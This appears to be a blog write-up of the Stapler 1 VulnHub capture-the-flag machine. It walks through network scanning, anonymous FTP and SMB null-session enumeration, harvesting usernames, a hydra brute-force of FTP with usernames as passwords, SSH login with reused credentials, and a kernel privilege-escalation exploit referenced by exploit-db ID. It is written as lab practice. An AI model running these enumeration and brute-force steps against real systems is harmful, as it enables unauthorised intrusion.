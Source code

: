 ```yaml
---
layout: post
title: Stapler 1
date: 2019-05-14
author: th3-3inst3in
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Stapler 1 vulnhub

After configuring the Stapler VM first step is to find out its IP.We simply do that by running net discover 

```bash
root@kali$: netdisover -r 192.168.2.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                          
                                                                                                                                                                                        
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                                                        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.2.1     00:50:56:c0:00:08      1      60  VMware, Inc.                                                                                                                         
 192.168.2.2     00:50:56:ed:3a:6d      1      60  VMware, Inc.                                                                                                                         
 192.168.2.7     00:0c:29:03:c5:77      1      60  VMware, Inc.                                                                                                                         
 192.168.2.254   00:50:56:e6:7a:fe      1      60  VMware, Inc.                                                                                                                         
```

So we have our target ip **192.168.2.7**

Run dirsearch and nmap on it and meanwhile browse the site to check if you find anything interesting on the web interface.
Unfortunately there wasn't anything interesting found while browsing the site just one error page . 

Dirsearch also didn't yeild any thing worth checking.

#### Nmap results

```bash
 nmap -sV 192.168.2.7                                                                                                                                                 [20/20]
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-14 06:14 EDT                                                                                                                          
Nmap scan report for 192.168.2.7                                                                                                                                                         
Host is up (0.00032s latency).                                                                                                                                                           
Not shown: 992 filtered ports                                                                                                                                                            
PORT     STATE  SERVICE     VERSION                                                                                                                                                      
20/tcp   closed ftp-data                                                                                                                                                                 
21/tcp   open   ftp         vsftpd 2.0.8 or later                                                                                                                                        
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)                                                                                                          
53/tcp   open   domain      dnsmasq 2.75                                                                                                                                                 
80/tcp   open   http        PHP cli server 5.5 or later                                                                                                                                  
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                  
666/tcp  open   doom?                                                                                                                                                                    
3306/tcp open   mysql       MySQL 5.7.12-0ubuntu1  

```

Lets start enumerating.

First I checked ftp anonymous login.

```bash

root@kali:~# ftp 192.168.2.7
Connected to 192.168.2.7.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220 
Name (192.168.2.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.00 secs (577.3049 kB/s)
ftp> exit
221 Goodbye.
root@kali:~# cat note 
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
root@kali:~# 

```

Even though the anonymous login was enable we couldn't find anything interesting except 2 names which could possibiliy be used later.

The next thing that strikes me is the netbios service lets enumerate that.For beginners use [this resource](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/).


I am going to use _smbclient_ . For the password I just pressed enter i.e a  Null login.

```bash
root@kali:~# smbclient -L 192.168.2.7
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        kathy           Disk      Fred, What are we doing here?
        tmp             Disk      All temporary files should be stored here
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            RED
root@kali:~# 

```

After going though all the files I only found one wordpress directory but I didn't see any wordpress running on the web server , I probably might have missed it ( I made a mental note to go back and check it) . The second reason for ignoring the wordpress directory is that there was no config file in it.

Next I ran enum4linux

```bash

..[snip]..
S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)

```
These are list of usernames that were enumerated I thought to use this to bruteforce login creds for ftp.

_a little cut magic_

```bash

root@kali:/tmp# cat users.txt | cut -d'\' -f2 | cut -d' ' -f 1
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

Running _hydra_

```bash
hydra -U users.txt -P users.txt -t 5 192.168.2.7 ftp

```

![hydra result]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/hydra.png)

Loging in with those creds in to the ftp I land in the home directory of the user and upon listing the files of the user I saw that there were too many files going though all of them would require alot of tile , this made me think that I am on the wrong path most likely I still went ahead and copied the name of the files and did some quick greping on it to find something like ssh or password or similar but no seed. 

After a long pause I tried the same credentials found for ftp on ssh and voila ! (sometimes thats just how ctfs are)

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/ssh.png)

I opted for the shortest path to get root 


```bash
$ uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

After searching Local explotis for the specific linux kernal and trying alot of them ( almost gave up on trying to find more exploits ) I finally came accross the following exploit.

_https://www.exploit-db.com/exploits/39772_

Ran the exploit and voila!!

![Root Shel]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/root-shell.png)